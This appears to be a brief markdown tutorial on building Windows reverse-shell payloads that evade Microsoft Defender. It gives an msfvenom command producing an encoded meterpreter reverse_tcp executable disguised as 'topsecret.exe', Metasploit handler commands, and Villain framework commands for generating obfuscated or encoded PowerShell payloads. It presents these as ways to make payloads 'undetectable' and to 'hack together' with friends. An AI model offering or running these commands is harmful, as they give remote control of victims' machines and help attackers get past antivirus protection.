 ## To see details.

```
(multi/handler)>   options
(multi/handler)>   info
```
● **Commands** 
- **show info**: Detail about the exploit 
- **show options**: Displays the required objects to run a successful exploit(set LHOST, LPORT...)


## Problem.

If you want to test these encoders on your system(if it is vulnerable for some of reason .) ○ Just add -e and the encoder name from the list and create the payload.(msfvenom).
```
>	msfvenom -l encoders       ...lists metasploit's encoders

>	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=2020 -e x86/shikata_ga_nai -f exe > topsecret.exe
```

## So, we can’t Exploit???

At this time, there are some Frameworks that can bypass microsoft defender. 
- This means there are a lot of computers with just defender, right? 
- The tool is called **Villain** 
- You can clone it from github.
- https://github.com/t3l3machus/Villain

## Start

- It have its own some commands 
- This tool is Awesome for
	- ○ Creating payload 
	- ○ No need to setup listener 
	- ○ You can share the session you got with your friends, and hack together….
```
>	python3 villian.py

villain>	help
```

## Create Payload

```
Villain>   generate os=windows lhost=192.168.1.3
Villain>   generate os=windows lhost=wlan0 obfuscate
Villain>   generate os=windows lhost=192.168.1.3 encode
```
● Villain will give you powershell code 
- It is Easy to create. 
- You can use these 2 methods to make it undetectable. 
	-  obfuscate, encode
